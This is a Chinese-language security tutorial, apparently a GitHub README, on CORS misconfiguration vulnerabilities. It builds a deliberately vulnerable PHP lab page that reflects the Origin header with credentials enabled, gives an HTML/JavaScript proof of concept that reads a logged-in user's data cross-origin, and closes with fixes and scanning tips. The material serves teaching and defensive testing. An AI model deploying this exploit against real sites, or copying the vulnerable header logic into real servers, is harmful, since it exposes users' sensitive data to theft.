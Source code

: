 | 作者   | 版本 | 说明 | 修订时间            |
| ------ | ---- | ---- | ------------------- |
| 屈林成 | v1.0 | 投稿 | 2023-05-25 15:00:00 |

## CORS介绍

CORS（跨源资源共享）是一种用于在Web应用程序中处理跨域请求的机制。当一个Web应用程序在浏览器中向不同的域（源）发起跨域请求时，浏览器会执行同源策略，限制了跨域请求的默认行为。同源策略要求Web应用程序只能访问与其本身源（协议、域名和端口）相同的资源。

然而，在某些情况下，我们希望允许来自其他源的跨域请求，例如使用AJAX进行跨域数据访问或在前端应用程序中嵌入来自不同域的资源（如字体、样式表或脚本）。这时就需要使用CORS来解决跨域请求的限制。

CORS通过在服务器端设置响应头来进行配置。当浏览器发起跨域请求时，服务器可以通过设置特定的CORS响应头来告知浏览器是否允许该请求。常见的CORS响应头包括以下几个：

1. `Access-Control-Allow-Origin`：指定允许访问该资源的源。可以是具体的源（如http://example.com）或通配符（`*`），表示允许来自任意源的访问。
2. `Access-Control-Allow-Methods`：指定允许的HTTP方法（如GET、POST、PUT等）。
3. `Access-Control-Allow-Headers`：指定允许的请求头字段。
4. `Access-Control-Allow-Credentials`：指定是否允许发送身份凭证（如cookies、HTTP认证等）。
5. `Access-Control-Max-Age`：指定预检请求（OPTIONS）的有效期，以减少对服务器的频繁请求。

在前端代码中，如果要发送跨域请求，可以通过`XMLHttpRequest`对象或`fetch API`添加额外的请求头来指示浏览器发起CORS请求。浏览器会自动在发送请求时检查响应中的CORS头信息，并根据配置决定是否允许该请求。

具体可参考[MDN DOC](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CORS)

## 漏洞介绍

因为需要配置CORS响应头来告知浏览器是否允许该请求，所以如果配置不当，就可能导致攻击者通过恶意网站或代码执行跨域请求，从而**获取或篡改用户的敏感数据（危害和CSRF类似，不过可以劫持返回的内容）**。

## 漏洞复现

### 环境搭建

实战过程中，主要是`Origin可控`以及`Access-Control-Allow-Credentials`设置为`True`，这样才能劫持到数据，简单的漏洞复现环境如下：

php代码，保存为`index.php`

```php
<?php
$userInfo = array(
    'username' => 'd4m1ts',
    'phone' => '13888888888'
);
$jsonResponse = json_encode($userInfo);

// 检查是否存在Origin头
if (isset($_SERVER['HTTP_ORIGIN'])) {
    // 设置Access-Control-Allow-Origin为请求中的Origin值
    header('Access-Control-Allow-Origin: ' . $_SERVER['HTTP_ORIGIN']);
    
    // 设置Access-Control-Allow-Credentials为True
    header('Access-Control-Allow-Credentials: true');
}

// 检查是否设置了名为admin的Cookie
if (isset($_COOKIE['admin'])) {
    header('Content-Type: application/json');
    echo $jsonResponse;
} else {
  echo "unauth";
}
?>
```

简易启动php web服务

```shell
php -S 127.0.0.1:9999
```

### 复现过程

直接打开会提示`unauth`

![unauth](README.assets/image-20230516下午73001995.png)

根据代码，需要在Cookie中设置字段`admin`

> [!NOTE]
>
> 浏览器默认SameSite是Lax，`Lax`的情况下无法发送至第三方上下文中，所以需要设置一下，不然无法劫持！

```javascript
document.cookie = "admin=1; SameSite=None"
```

设置后刷新就可以拿到数据了，我们假设这是敏感数据，后续即使对这个数据进行劫持。

![auth](README.assets/image-20230516下午73051471.png)

---

假设`http://internal.gm7.org:9999/`是目标，测试过程中在请求数据包头添加`Origin`字段，观察响应包，发现Origin可控，且`Access-Control-Allow-Credentials: true`，还没有验证referer，就说明可以劫持了。

![ac](README.assets/image-20230516下午73300530.png)

编写POC如下：

```html
<!DOCTYPE html>
<html>
<body>
<div id="demo">
<button type="button" onclick="cors()">Exploit</button>
</div>
 
<script>
function cors() {
  var xhttp = new XMLHttpRequest();
  xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
      document.getElementById("demo").innerHTML = alert(this.responseText);
    }
  };
  xhttp.open("GET", "http://internal.gm7.org:9999/", true);
  xhttp.withCredentials = true;
  xhttp.send();
}
</script>
</body>
</html>
```

放到第三方网站上，可见成功劫持

![success](README.assets/image-20230516下午73528810.png)

### 特别说明

如果要CORS携带Cookie，同时成功利用该漏洞，需要满足如下几个条件

1. Cookie的`SameSite`属性值为`None`，但目前浏览器默认几乎都是`Lax`
2. 响应头中的`Access-Control-Allow-Origin`不能为通配符`*`，而是应指定具体的域名，否则只能发起请求，无法获取到响应
3. 服务器的响应头需要包含`Access-Control-Allow-Credentials: true`
4. 在发起Ajax请求时，需要将`withCredentials`设置为`true`。

## 修复建议

1. 限制`Access-Control-Allow-Origin`的值为可信源，尽可能设置白名单，不能为`*`，也不能为`null`
2. 避免`Access-Control-Allow-Credentials`的值为`True`
3. 设置`Access-Control-Allow-Methods`（允许的 HTTP 方法）、`Access-Control-Allow-Headers`（允许的请求头）

## 挖掘技巧

可以在burpsuite中勾选替换条件，自动增加Origin

![burp](README.assets/image-20230516下午83549525.png)

然后从响应头中查看是否可控Origin以及是否包含`Access-Control-Allow-Credentials: true`

![resp](README.assets/image-20230516下午83700689.png)

也可以挂着xray去扫，不过误报率可能会比较高，大多都不是敏感信息，没啥意思，不过反正都需要人工去判断，看个人喜好吧。